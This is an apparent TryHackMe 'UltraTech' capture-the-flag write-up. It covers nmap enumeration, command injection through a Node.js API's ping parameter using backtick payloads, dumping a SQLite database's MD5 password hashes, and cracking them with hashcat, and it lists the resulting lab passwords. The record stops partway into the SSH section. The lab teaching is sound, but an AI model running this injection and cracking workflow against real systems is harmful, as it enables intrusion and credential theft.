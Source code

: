 <h1> TryHackMe UltraTech writeup - Medium </h1>

The basics of pentration testing, enumeration, privlilege escaltion, and webapp testing

## Part 1 - Enumeration

The first thing im going to do is run an nmap scan on the target IP address (10.10.208.199).

<p><span style="color:green"><em>
Starting Nmap 7.60 ( https://nmap.org ) at 2024-08-27 18:11 BST
Nmap scan report for ip-10-10-208-199.eu-west-1.compute.internal (10.10.208.199)
Host is up (0.00089s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
8081/tcp open  blackice-icecap
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.80 seconds
</em></span></p>



### Which software is using the port 8081?

- To find this I did an nmap scan looking for the service and version (-sV) specificly on port 8081.
    - `nmap -sV 10.10.208.199`

<p><span style="color:green"><em>
PORT     STATE SERVICE VERSION
8081/tcp open  http    Node.js Express framework
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)
</em></span></p>

From this we can see that the software running is Node.js.

### Which other Non-standard port is used?
- To find this, I ran an nmap scan that scans all ports rather than just the top 1000
    - `nmap 10.10.208.199 -p-`

<p><span style="color:green"><em>
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown
</em></span></p>

From this we can see that 31331 is the other non standard port running.

### Which software using this port?
- To find this, I ran an nmap scan that looks for the service and version (-sV) on port 31331.
    - `nmap -sV 10.10.208.199 -p 31331`

<p><span style="color:green"><em>
PORT      STATE SERVICE VERSION
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)
</em></span></p>

From this we can see that Apache is the software using this port.

### Which GNU/Linux distribution seems to be used?
- To find this we can use the nmap scan from above.
- We can see that Ubuntu is the GNU/Linux distribution being used.

### The software using the port 8081 is a RESTapi, how many of its routes are used by the web application?
- To find this we can use an nmap scan that goes into more detail, -A.
    - `nmap -A 10.10.208.199 -p 8081`

<p><span style="color:green"><em>
PORT     STATE SERVICE VERSION
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.13 (97%), Linux 3.8 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%),
Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%),
Linux 3.10 (92%), Linux 3.19 (92%), Linux 3.2 - 4.8 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.56 ms ip-10-10-208-199.eu-west-1.compute.internal (10.10.208.199)
</em></span></p>

From this we can see there are 2 Rest api's; _http-cors, and _http-title. 

## Part 2 - Explotation

### There is a database lying around, what is its filename?
- To start off, I opened my web browser and went to http://10.10.208.199:8081. The only thing to pop up is
  UltraTech API v0.1.3, which might be vulnerable. Im going to look at the other port before attempting to exploit this one.
- When looking at http://10.10.208.199:31331, we find a somewhat sophisticated looking webpage.
  Upon futher inspection on the Aboutus page we find a list of potential users.

<p><span style="color:green"><em>
John McFamicom | r00t
Francois LeMytho | P4c0
Alvaro Squalo | Sq4l
</em></span></p>

-Continuing on, we find a contact page that throws a 404 error. it also shows that apache version 2.4.29 which might come in handy if that version is vulnerable. 
- The next thing I look at is the robots.txt file, this leads me to /utech_sitemap.txt. Continuing to follow this path leads us to find.

<p><span style="color:green"><em>
/
/index.html
/what.html
/partners.html
</em></span></p>

- /partners.html seems interesting as it wasnt on the main page. Upon further invesigation we find that this is a login page. Looking into the .html code we find a custom written api file "api.js":

```.js
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

- Im relativly new to api's but by analyzing the code we see that the function getAPIURL returns the domain name of the web host port 8081. Then then function checkAPIStatus goes to the url http://10.10.90.74:8081/ping?ip=10.10.90.74 . Which might be worth looking into before moving forward.
- After going to that web address, we can see that it returns the ping command. This looks like a form of remote code execution. Returned ping:
<p><span style="color:green"><em>
PING 10.10.90.74 (10.10.90.74) 56(84) bytes of data. 64 bytes from 10.10.90.74: icmp_seq=1 ttl=64 time=0.037 ms --- 10.10.90.74 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.037/0.037/0.037/0.000 ms
</em></span></p>
- The first thing I do is try to find out where I am in the system, I do this by running the command pwd
	- http://10.10.90.74:8081/ping?ip=`pwd`, this is the output:
<p><span style="color:green"><em>
ping: /home/www/api: Temporary failure in name resolution 
</em></span></p>
- We can see that our wokring directory is /home/www/api
- Now we can start looking around and trying to find the database filename. 
- The next command im going to run is a simple ls
	- http://10.10.90.74:8081/ping?ip=`ls`, this is the output:
<p><span style="color:green"><em>
ping: utech.db.sqlite: Name or service not known 
</em><</span></p>
- Great! the name of the database is utech.db.sqlite

### What is the first user's password hash?
- To find the first user's password hash I belive we should try to look in the ultratech database file. To do this I will use the same method I did to find the database.
	- http://10.10.90.74:8081/ping?ip=`cat utech.db.sqlite`
 <p><span style="color:green"><em>
ping: ) \ufffd\ufffd\ufffd(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
 </em><</span></p>   

From this we can see that the username and password hash.

<p><span style="color:green"><em>
r00t 	: f357a0c52799563c7c7b76c1e7543a32
admin	: 0d0ea5111e3c1def594c1684e3b9be84
</em></span></p>

### what is the password associated with this hash?

- To find the hash values, I will use hashcat.
	- hashcat -m 0 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt
<p><span style="color:green"><em>
r00t	: n100906
admin	: mrsheafy
</em></span></p>

## Part 3 - Gathering Intel 

### what are the first 9 characters of the root user's private SSH key?

- The first thing im going to do is log into the ssh server using the user:pass we found in the last section.
- The admin account doesnt work for the ssh server but it might for the :31331/partners.html login page. It brings us to message from lp1 to please look at the servers configuration files.
- r00t is able to log into the ssh server.
-   

  

